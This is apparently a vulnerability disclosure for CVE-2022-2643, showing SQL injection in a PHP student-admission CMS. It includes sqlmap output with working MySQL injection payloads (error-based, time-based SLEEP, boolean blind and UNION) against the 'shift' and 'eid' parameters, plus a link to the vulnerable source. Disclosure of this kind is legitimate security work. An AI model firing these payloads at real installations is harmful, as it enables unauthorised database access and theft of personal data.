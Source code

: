 # Student-Admission CMS Sqlinjection

# CVE-2022-2643  
## Sqlinjection location 1  
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)


![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

#### No Check Shift  

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)


#### Sqlmap Attack
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```

## Sqlinjection location 2

![image](https://user-images.githubusercontent.com/72059221/182759099-aa9b5cf7-88eb-46ee-9978-7c9af8aff168.png)


#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/72059221/182759209-d192c812-572e-42ca-b63c-4b707d1d8101.png)


```
[11:29:01] [INFO] GET parameter 'eid' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 142 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: a=edit&eid=(SELECT (CASE WHEN (5950=5950) THEN 8 ELSE (SELECT 9749 UNION SELECT 6556) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: a=edit&eid=8 OR (SELECT 5422 FROM(SELECT COUNT(*),CONCAT(0x717a766a71,(SELECT (ELT(5422=5422,1))),0x7170707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: a=edit&eid=8 AND (SELECT 8871 FROM (SELECT(SLEEP(5)))pMGL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: a=edit&eid=-4536 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a766a71,0x4764484f4a426d4d6147624c54525076594d64476745676f7750505173707247795a6c584d434842,0x7170707871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[11:29:02] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html
